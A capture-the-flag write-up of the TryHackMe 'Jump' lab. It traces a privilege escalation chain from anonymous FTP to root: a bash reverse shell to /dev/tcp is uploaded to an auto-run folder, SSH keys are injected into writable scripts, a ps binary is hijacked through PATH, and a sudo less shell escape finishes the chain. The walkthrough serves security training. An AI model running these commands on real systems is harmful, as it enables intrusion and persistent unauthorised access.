# Jump Write-up

**Platform**: TryHackMe <br>
**Room**: Jump (https://tryhackme.com/room/jump) <br>
**Category**: Network | Linux Privilege Escalation <br>
**Target**: Linux <br>
**Techniques**: Anonymous FTP, Command Injection, Process Enumeration, SSH Key Persistence, PATH Hijacking, Sudo Misconfigurations, GTFOBins <br>
**Final Goal**: Root Access

## Executive Summary

This assessment evaluated the security of a Linux server hosting multiple user accounts and automated administrative processes. The objective was to determine whether an attacker could progress from unauthenticated access to full system compromise.

The assessment demonstrated that a series of insecure configurations allowed privileges to be escalated through multiple user accounts until administrative (root) access was obtained. While no single issue was critical in isolation, the combination of weak access controls, overly permissive permissions, and insecure automation resulted in a complete compromise of the host.

The findings highlight the importance of enforcing the principle of least privilege, securing automated processes, and regularly reviewing user permissions and system configurations to prevent privilege escalation.

## Overview

Jump simulates a Linux server where multiple users interact through automated scripts and administrative utilities. The objective is to assess the exposed services, obtain an initial foothold, and identify misconfigurations that allow privileges to be escalated until full root access is achieved.

The room demonstrates a realistic privilege escalation chain involving:

- Service enumeration
- Anonymous FTP access
- Command injection
- SSH key persistence
- Writable scripts
- PATH hijacking
- Sudo misconfigurations

---

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -sV -sC -p- 10.113.130.146
```

Where:

- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports.

The scan reveals two accessible services.



| Port | Service | Observation |
|------|---------|-------------|
| 21 | FTP | Anonymous authentication is permitted, making it the primary attack surface. |
| 22 | SSH | May become useful once valid credentials are obtained. |

Since anonymous FTP access is available, the assessment continues by examining the exposed files.

## Anonymous FTP Enumeration

The initial Nmap scan identified an FTP service that allows anonymous authentication. Since no web server is exposed, the assessment continues by examining the files accessible through FTP.

Connect to the server:

```bash
ftp 10.113.130.146
```

When prompted, enter `anonymous` as both the username and password.

Listing the available directories reveals two locations of interest:

- `incoming`
- `pub`

The `incoming` directory is empty, while the `pub` directory contains a `README.txt` file together with the `archive` and `uploads` directories.



Download the README file:

```bash
get README.txt
```

Display its contents:

```bash
cat README.txt
```



The file describes an automated reconnaissance pipeline:

```text
[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
```

This indicates that files uploaded to the `incoming` directory are processed automatically. If the uploaded file contains executable code, it may be possible to obtain command execution on the target system.

---

## Initial Foothold as `recon_user`

Create a shell script containing a Bash reverse shell.

```bash
nano revshell.sh
```

Insert the following payload, replacing the IP address with the AttackBox address.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.113.115.121/4441 0>&1
```



Start a Netcat listener on the AttackBox.

```bash
sudo nc -lvnp 4441
```

Return to the FTP session and upload the script to the `incoming` directory.

```bash
put revshell.sh
```



Shortly afterwards, the automated pipeline processes the uploaded file and initiates a reverse shell.



The connection provides an interactive shell as `recon_user`.

The reverse shell needs to be stabilised before further enumeration. The same procedure can be reused whenever a new reverse shell is obtained.

1. Start a Netcat listener on the AttackBox (for example, `sudo nc -lvnp 4441`).
2. In another terminal, record the terminal dimensions with:

```bash
stty size
```

3. Upgrade the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

4. Set the terminal type:

```bash
export TERM=xterm
```

5. Background the session using **CTRL + Z**.

6. Restore the shell:

```bash
stty raw -echo; fg
```

7. Restore the original terminal dimensions:

```bash
stty rows <rows> cols <columns>
```



With a stable shell established, verify access to the current user's home directory.

```bash
ls
cat flag.txt
```

The directory contains the first flag, confirming successful access as `recon_user`.



## Privilege Escalation: `recon_user` → `dev_user`

With access established as `recon_user`, the next objective is to identify processes running under other user accounts that may present privilege escalation opportunities.

A useful tool for this purpose is **pspy**, which monitors processes without requiring root privileges.

Download `pspy64` to the AttackBox from the official repository (https://github.com/dominicbreuker/pspy). From the same directory, start a simple HTTP server:

```bash
python3 -m http.server
```

This starts a web server on port **8000**.

On the target machine, download the binary and give it executable permissions:

```bash
wget http://10.113.115.121:8000/pspy64
chmod +x pspy64
```




Before running the tool, identify the user IDs present on the system.

```bash
id
```

The output shows:

- `recon_user` → UID **1001**
- `dev_user` → UID **1002**
- `devops` → UID **1005**

These identifiers make it easier to associate scheduled processes with their respective users.



Run `pspy64`:

```bash
./pspy64
```



Among the observed processes is a script executed by **UID 1002 (`dev_user`)**. This script becomes the next focus of the assessment.

Inspect its permissions:

```bash
ls -la /opt/dev/backup.sh
```

The file is writable by `recon_user`.

Review its contents:

```bash
cat /opt/dev/backup.sh
```



The script creates a compressed backup of the `recon_user` home directory using:

```bash
tar -czf /tmp/recon_backup.tgz /home/recon_user
```

Since the script executes as `dev_user` and is writable by `recon_user`, it provides a privilege escalation opportunity.

Although a reverse shell could be added to the script, SSH keys provide a more stable interactive session. The following procedure will be reused throughout the remainder of the walkthrough.

### Generating an SSH Key Pair

On the AttackBox, generate an RSA key pair.

```bash
ssh-keygen -f dev_rsa -C "dev_jump"
```

Entering a passphrase is optional, although it is recommended during real engagements.



Display the generated public key.



Modify `/opt/dev/backup.sh`:

```bash
nano /opt/dev/backup.sh
```

Append the following commands, replacing the public key and name accordingly.

```bash
mkdir -p /home/dev_user/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKygBrwUo5HBVQXJAoddznJKWojq60NRbG3NBKYitq8Y dev_jump' >> /home/dev_user/.ssh/authorized_keys
chmod 700 /home/dev_user/.ssh
chmod 600 /home/dev_user/.ssh/authorized_keys
```

The modified script should resemble the following:



Wait for the scheduled task to execute. This can be monitored using the existing `pspy64` session.



Once the injected commands have been executed, establish an SSH session as `dev_user`.

```bash
ssh -i dev_rsa dev_user@10.113.130.146
```

Authentication succeeds, providing an interactive shell as `dev_user`.



Listing the current directory reveals the `dev_user` flag.



> **Note:** During a real engagement, any commands added to `/opt/dev/backup.sh`, or any other files, should be removed after access has been established to minimise operational impact and leave the target system in its original state where possible.

## Privilege Escalation: `dev_user` → `monitor_user`

After obtaining access as `dev_user`, the next objective is to identify additional processes running under higher-privileged accounts.

Earlier, while monitoring the system with **pspy64**, a process executed by **UID 1003** was observed.



The process repeatedly executes:

```text
/bin/bash /usr/local/bin/healthcheck
```

The first step is to inspect the script's permissions.

```bash
ls -la /usr/local/bin/healthcheck
```

The output shows that the script is readable and executable, but not writable.



Reviewing its contents reveals:

```bash
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done
```



The script matches the process previously observed in **pspy64**, confirming that it is executed regularly by **UID 1003**.

Although the script itself cannot be modified, it is managed as a systemd service. Gather additional information using:

```bash
systemctl list-units --type=service | grep healthch
```

```bash
systemctl status healthcheck.service
```

The output shows that the service loads the following unit file:

```
/etc/systemd/system/healthcheck.service
```



Inspecting the unit file reveals that the service defines a custom `PATH` environment variable:

```text
Environment=PATH=/opt/dev/bin:/usr/local/bin:/usr/bin
```



Since `/opt/dev/bin` appears before `/usr/bin`, any executable located there takes precedence over the system binary with the same name.

Listing the directory contents confirms the presence of a writable `ps` executable.

```bash
ls -la /opt/dev/bin
```



The existing binary contains a reverse shell.



 Although this could be reused, this walkthrough continues by adding an SSH public key to establish persistent access as `monitor_user`.

Edit the file:

```bash
nano /opt/dev/bin/ps
```

Replace its contents with:

```bash
mkdir -p /home/monitor_user/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKygBrwUo5HBVQXJAoddznJKWojq60NRbG3NBKYitq8Y dev_jump' >> /home/monitor_user/.ssh/authorized_keys
chmod 700 /home/monitor_user/.ssh
chmod 600 /home/monitor_user/.ssh/authorized_keys
/usr/bin/ps "$@"
```

Replace the public key and name accordingly.

The final line executes the legitimate `ps` binary, forwarding all command-line arguments it originally received. This preserves the expected behaviour of the service after the injected commands execute.

Make the modified file executable.

```bash
chmod +x /opt/dev/bin/ps
```



After the service runs again, the existing `pspy64` session confirms that the modified binary has been executed.



Connect to the target using the existing private key.

```bash
ssh -i dev_rsa monitor_user@10.113.130.146
```

Authentication succeeds, providing an interactive shell as `monitor_user`.



Listing the current directory reveals the `monitor_user` flag.

The next objective is to escalate from `monitor_user` to `ops_user`.

## Privilege Escalation: `monitor_user` → `ops_user`

With access established as `monitor_user`, the next objective is to identify any commands that can be executed with the privileges of another user.

Check the current user's `sudo` permissions.

```bash
sudo -l
```

The output reveals that `monitor_user` may execute `/usr/local/bin/deploy.sh` as `ops_user` without supplying a password.



Inspect the permissions of the script.

```bash
ls -la /usr/local/bin/deploy.sh
```

The file is owned by `ops_user` and cannot be modified by `monitor_user`.



Review its contents.

```bash
cat /usr/local/bin/deploy.sh
```

The script calls another file named `deploy_helper.sh`, located in `/opt/app`.



Check the permissions of the helper script.

```bash
ls -la /opt/app/deploy_helper.sh
```

Unlike `deploy.sh`, the helper script is owned by `monitor_user`, meaning it can be modified.



Its original contents are:

```bash
#!/bin/bash
echo "[+] Deploy helper running"
echo "[+] Syncing application files"
sleep 2
```

Since `deploy_helper.sh` is executed by `deploy.sh`, any commands added to it will execute with the privileges of `ops_user`.

As in the previous privilege escalation stages, the walkthrough uses SSH keys to establish persistent access. Append the following commands to `deploy_helper.sh`, replacing the public key and name accordingly.

```bash
mkdir -p /home/ops_user/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKygBrwUo5HBVQXJAoddznJKWojq60NRbG3NBKYitq8Y dev_jump' >> /home/ops_user/.ssh/authorized_keys
chmod 700 /home/ops_user/.ssh
chmod 600 /home/ops_user/.ssh/authorized_keys
```



Execute the original deployment script using the previously identified `sudo` permission.

```bash
sudo -u ops_user /usr/local/bin/deploy.sh
```



Once the helper script has been executed, establish an SSH session as `ops_user` using the existing private key.

```bash
ssh -i dev_rsa ops_user@10.113.130.146
```

Authentication succeeds, providing an interactive shell as `ops_user`.

Listing the current directory reveals the `ops_user` flag.



## Privilege Escalation: `ops_user` → `root`

With access established as `ops_user`, perform another review of the available `sudo` permissions.

```bash
sudo -l
```

The output reveals that `ops_user` may execute `/usr/bin/less` as `root` without supplying a password.



To determine whether this permission can be abused, consult **GTFOBins** (https://gtfobins.org/), which documents legitimate Unix binaries that can be used during privilege escalation.

Search for **less**:

https://gtfobins.org/gtfobins/less/#shell



The documented technique consists of executing `less` with `sudo` and then spawning a shell from within the application.

Run:

```bash
sudo less /etc/hosts
```

Once `less` opens, type:

```text
!/bin/sh
```





A root shell is spawned.

Verify the contents of the root directory and read the flag.

```bash
ls /root
cat /root/flag.txt
```



The final flag confirms complete privilege escalation from anonymous FTP access to `root`.

# Conclusion

This assessment demonstrated how a series of seemingly minor misconfigurations could be chained together to achieve full system compromise. Starting from anonymous FTP access, each stage of the attack exploited an insecure trust relationship between users, allowing privileges to be escalated incrementally until root access was obtained.

